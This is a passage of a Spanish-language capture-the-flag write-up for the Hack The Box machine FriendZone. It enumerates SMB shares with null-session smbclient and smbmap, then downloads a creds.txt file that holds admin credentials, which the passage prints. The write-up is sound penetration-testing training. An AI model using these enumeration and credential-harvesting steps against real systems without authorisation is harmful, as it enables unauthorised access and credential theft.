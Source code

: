 La opción **-N** es de Null Session ( sin credenciales) y **-L** de listar los recursos.

También podemos usar la herramienta **smbmap**, incluso mejor porque podemos ver los permisos que tenemos en cada carpeta:

```sh
❯ smbmap -H 10.10.10.123
[+] Guest session   	IP: 10.10.10.123:445	Name: friendzoneportal.red                              
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	Files                                             	NO ACCESS	FriendZone Samba Server Files /etc/Files
	general                                           	READ ONLY	FriendZone Samba Server Files
	Development                                       	READ, WRITE	FriendZone Samba Server Files
	IPC$                                              	NO ACCESS	IPC Service (FriendZone server (Samba, Ubuntu))

```

Una observación; Puede que la carpeta Files esté en la ruta /etc/Files en local por lo que veo arriba. Quizás el resto también se encuetren en /etc/.  
Veamos que encontramos en las carpetas que tenemos acceso:

```sh
❯ smbclient -N //10.10.10.123/Development
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 21 17:32:52 2024
  ..                                  D        0  Tue Sep 13 16:56:24 2022

		3545824 blocks of size 1024. 1634164 blocks available
smb: \> 
```

Development está vacía.

```sh
❯ smbclient -N //10.10.10.123/general
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 16 21:10:51 2019
  ..                                  D        0  Tue Sep 13 16:56:24 2022
  creds.txt                           N       57  Wed Oct 10 01:52:42 2018

		3545824 blocks of size 1024. 1634164 blocks available

smb: \> get creds.txt 
getting file \creds.txt of size 57 as creds.txt (0,4 KiloBytes/sec) (average 0,4 KiloBytes/sec)
smb: \> exit
``` 

En **general** si que encontramos un archivo interesante. Lo descargamos y echamos un vistazo:

```sh
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

